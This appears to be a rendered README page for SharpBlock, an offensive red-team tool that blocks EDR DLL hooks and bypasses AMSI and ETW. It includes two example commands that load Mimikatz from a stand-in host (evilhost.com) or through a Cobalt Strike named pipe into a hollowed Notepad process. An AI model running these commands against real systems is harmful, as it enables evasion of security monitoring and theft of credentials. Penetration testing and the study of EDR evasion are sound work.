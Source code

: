 ## **SharpBlock**

### **Description**

SharpBlock is a sophisticated tool designed to bypass Endpoint Detection and Response (EDR) systems' active protection DLLs. Developed by @_EthicalChaos_, it focuses on preventing the execution of EDR DLL entry points, thereby stopping EDR hooks from being placed. SharpBlock is particularly useful for penetration testers and red teamers who need to evade advanced security measures in a target environment.

### **Features**

- **EDR DLL Entry Point Blocking**: Prevents the execution of EDR DLL entry points, effectively stopping EDR hooks.
- **Patchless AMSI Bypass**: Offers an undetectable method to bypass AMSI without code patches, evading runtime scanners.
- **Flexible Implant Loading**: Supports loading implants from disk, HTTP, or named pipe, including integration with Cobalt Strike.
- **Stealthy Process Hollowing**: Hides the implanted process to evade scanners looking for hollowed processes.
- **Command Line Argument Spoofing**: Spoofs command line arguments post-process creation using a stealthy EDR detection method.
- **Patchless ETW Bypass**: Includes a method to bypass Event Tracing for Windows (ETW) without patching.
- **NtProtectVirtualMemory Block**: Blocks invocations of **`NtProtectVirtualMemory`** when called within the range of a blocked DLL's address space.

### **Example Commands**

- **Launching Mimikatz Over HTTP**:
    
    ```bash
    SharpBlock -e <http://evilhost.com/mimikatz.bin> -s c:\\windows\\system32\\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
    
    ```
    
    This command launches Mimikatz from an HTTP source, using Notepad as the host process and blocking a specific EDR DLL.
    
- **Launching Mimikatz with Cobalt Strike Beacon**:
    
    ```perl
    execute-assembly SharpBlock.exe -e \\\\.\\pipe\\mimi -s c:\\windows\\system32\\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
    upload_file /home/haxor/mimikatz.exe \\\\.\\pipe\\mimi
    
    ```
    
    This command uses Cobalt Strike to launch Mimikatz through a named pipe, using Notepad as the host process and blocking a specific EDR DLL.
    

### **Usage Options**
